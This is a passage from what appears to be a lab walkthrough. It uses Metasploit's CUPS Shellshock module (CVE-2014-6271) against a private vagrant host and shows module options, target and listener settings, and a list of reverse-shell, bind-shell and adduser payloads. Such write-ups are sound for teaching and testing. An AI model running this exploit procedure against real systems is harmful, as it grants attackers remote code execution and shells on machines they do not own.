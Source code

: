 We decide to use 1 since it has a excellent rank and its more recent than 0, we will also check the options of the exploit:

```bash
use 1
show options
```

```bash
Module options (exploit/multi/http/cups_bash_env_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CVE           CVE-2014-6271    yes       CVE to exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HttpPassword                   yes       CUPS user password
   HttpUsername  root             yes       CUPS username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPATH         /bin             yes       Target PATH for binaries
   RPORT         631              yes       The target port (TCP)
   SSL           true             yes       Use SSL
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

```bash
set RHOSTS 172.28.128.3
set httppassword vagrant
set httpusername vagrant
set LHOST 172.16.216.1
```

Then we configure the payload:

```bash
show payloads
```

```bash
Compatible Payloads
===================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  payload/cmd/unix/adduser                            normal  No     Add user with useradd
   1  payload/cmd/unix/bind_ruby                          normal  No     Unix Command Shell, Bind TCP (via Ruby)
   2  payload/cmd/unix/bind_ruby_ipv6                     normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   3  payload/cmd/unix/generic                            normal  No     Unix Command, Generic Command Execution
   4  payload/cmd/unix/reverse_ruby                       normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   5  payload/cmd/unix/reverse_ruby_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
```
